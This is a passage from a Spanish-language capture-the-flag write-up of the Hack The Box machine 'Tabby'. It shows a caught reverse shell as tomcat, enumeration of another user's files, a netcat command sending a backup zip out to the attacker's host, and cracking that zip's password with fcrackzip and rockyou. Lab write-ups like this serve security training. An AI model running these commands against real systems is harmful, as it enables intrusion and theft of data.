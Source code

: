 ```bash
─╼ $ rlwrap nc -nlvp 4433
listening on [any] 4433 ...
connect to [10.10.15.86] from (UNKNOWN) [10.10.10.194] 38884
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
hostname
tabby
whoami
tomcat
cd /
/
script /dev/null -c bash
Script started, file is /dev/null
```

![bashtomcatshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/bashtomcatshell.png)

Estamos dentro, ahora a enumerar :)

Vemos el usuario **ash** en el directorio home, pero no tenemos acceso a el. Veamos que podemos usar para obtenerlo. Buscando de que archivos es owner el usuario **tomcat** no obtenemos nada relevante... Si lo hacemos con **ash** obtenemos esto:

```bash
tomcat@tabby:/var/lib/tomcat9$ find / -user ash -ls 2>/dev/null | grep -v proc | grep -v sys
   667268      4 drwxr-xr-x   4 ash      ash          4096 Jun 17 21:59 /var/www/html/files
   655666     12 -rw-r--r--   1 ash      ash          8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip
   794579      4 drwxr-x---   9 ash      ash          4096 Oct  8 21:58 /home/ash
        2      0 drwx------   6 ash      ash           180 Oct  8 19:57 /run/user/1000
```

Pasemos ese archivo `.zip` a nuestra máquina e intentemos crackearlo.

```bash
# En nuestra maquina
─╼ $ nc -lvp 4445 > 16162020_backup.zip

# En la maquina objetivo, con el `-w` le indicamos el timeout de espera
tomcat@tabby:/var/lib/tomcat9$ md5sum /var/www/html/files/16162020_backup.zip
tomcat@tabby:/var/lib/tomcat9$ nc -w 5 10.10.15.86 4445 < /var/www/html/files/16162020_backup.zip

# Despues en nuestra maquina validamos la integridad, si los dos hashes son iguales, prosigamos
─╼ $ md5sum 16162020_backup.zip
```

Ahora usamos **fcrackzip**

```bash
─╼ $ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
'var/www/html/assets/' is not encrypted, skipping
found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
'var/www/html/files/' is not encrypted, skipping
found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
checking pw arizon1                                 

PASSWORD FOUND!!!!: pw == admin@it 
```

